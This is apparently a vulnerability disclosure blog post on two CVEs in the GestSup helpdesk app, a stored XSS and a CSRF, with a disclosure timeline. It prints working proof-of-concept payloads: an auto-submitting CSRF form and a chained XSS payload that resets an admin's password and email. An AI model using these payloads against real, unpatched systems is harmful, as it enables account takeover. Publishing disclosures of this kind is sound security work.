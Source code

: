 ```yaml
---
date: "2024-02-12T11:40:54+02:00"
draft: false
title: "CVE in GestSup"
summary: "I discovered two vulnerabilites affecting GestSup: a stored XSS (CVE-2023-52059) and a CSRF (CVE-2023-52060)."
tags: ["CVE", "Web"]
---
```

## 📝 TL;DR
GestSup is an open-source helpdesk application written in PHP. In december 2023, I discovered two vulnerabilities affecting GestSup following a security assessment. These are a stored XSS and a CSRF which allow for account takeover.

## 👾 CVE-2023-52059

### Summary

| ID                    | CVE-2023-52059                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | XSS                                                      |
| **Title**             | Stored XSS in ticket's description and resolution fields |
| **Product impacted**  | Gestsup                                                  |
| **Impacted version**  | < 3.2.46                                                 |
| **CVSS Score**        | 5.4                                                      |
| **Author**            | Sopalinge                                                |

### Description

A lack of user input back-end sanitization allows remote attackers to perform a stored Cross-Site Scripting (XSS) attack in Gestsup < 3.2.46.

When creating or editing a ticket, an unprivileged user is able to intercept and edit the `Description` and `Resolution` fields directly in the request to bypass front-end sanitization and store malicious HTML content.


### Impact

An unprivileged user is then able to execute script on any user's browser who are viewing the malicious ticket.

The session cookie has the HttpOnly attribute, which protects it from client-side extraction.

However, combined with [CVE-2023-52060](#-cve-2023-52060), it can be used to take over privileged accounts directly from the Gestsup application.


### Proof of concept

In the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to pop an alert when any user view the malicious ticket :

```HTML
<img src=x onerror="alert('XSS')" />
```

### Demo

{{< video src="https://github.com/Tanguy-Boisset/CVE/assets/83412402/deacf3e8-8f6e-44b2-ba41-85b895f534c9" >}}


## 👾 CVE-2023-52060

### Summary

| ID                    | CVE-2023-52060                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | CSRF                                                     |
| **Title**             | CSRF on profile's information change request             |
| **Product impacted**  | Gestsup                                                  |
| **Impacted version**  | < 3.2.46                                                 |
| **CVSS Score**        | 4.3                                                      |
| **Author**            | Sopalinge                                                |

### Description

A lack of CSRF protection in the request to edit a user's profile information in Gestsup < 3.2.46 allows attackers to perform a Cross-Site Request Forgery (CSRF) attack.

The `index.php?page=admin/user&action=edit&userid=1&tab=infos` endpoint can be exploited to craft a malicious POST request which can be used to trick users into unknowingly changing their information, including email address and password.


### Impact

An attacker could trick another user into unknowingly changing their password when visiting a malicious website. Note that the SameSite attribute is not defined which means that the behaviour will depend on the victim's browser.

Combined with [CVE-2023-52059](#-cve-2023-52059), it can be used to take over privileged accounts directly from the Gestsup application.


### Proof of concept

The following HTTP code can be hosted on a malicious website. A user tricked into visiting this page has a risk (depedning on multiple factors like the browser used) to have his password, email and function edited.

```HTML
<form id="autosubmit" action="http://localhost:3010/gestsup/index.php?page=admin/user&action=edit&userid=1&tab=infos" method="POST">
    <input type="hidden" name="attachment" value="0" />
    <input type="hidden" name="language" value="fr_FR" />
    <input type="hidden" name="profile" value="4" />
    <input type="hidden" name="firstname" value="admin" />
    <input type="hidden" name="lastname" value="" />
    <input type="hidden" name="login" value="admin" />
    <input type="hidden" name="password" value="admin" />
    <input type="hidden" name="password2" value="admin" />
    <input type="hidden" name="mail" value="admin@example.com" />
    <input type="hidden" name="function" value="hacked" />
    <input type="hidden" name="modify" value="modify" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.getElementById("autosubmit").submit();
</script>
```
### Demo

{{< video src="https://github.com/Tanguy-Boisset/CVE/assets/83412402/3bf74a94-c885-40f2-a13e-eda5334affc5" >}}


## 😈 Exploitation of both vulnerabilities

Combining both [CVE-2023-52059](#-cve-2023-52059) and [CVE-2023-52060](#-cve-2023-52060) in the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to exploit the CSRF to change the pasword, email and function of any user viewing the ticket :

```HTML
<img src=x onerror="fetch('./index.php?page=admin/user&action=edit&userid=1&tab=infos', {method: 'POST', headers: {'Content-Type':'application/x-www-form-urlencoded'},body: 'attachment=0&language=fr_FR&profile=4&firstname=admin&lastname=&login=admin&password=admin&password2=admin&mail=admin@example.com&function=hacked&modify=modify'})" />
```
### Demo

{{< video src="https://github.com/Tanguy-Boisset/CVE/assets/83412402/69514524-4530-47b6-907e-0b593bd4e691" >}}


## 📆 Timeline

- 24/12/2023 : Vulnerability discovered
- 24/12/2023 : Vendor contacted
- 25/12/2023 : Official fix published
- 25/01/2024 : CVE ID attributed
- 12/02/2024 : CVE publicly disclosed


## 📖 References

- [Gestsup website](https://gestsup.fr/index.php?page=home)
- [Fixing patch](https://gestsup.fr/index.php?page=download&channel=beta&version=3.2.46&type=patch)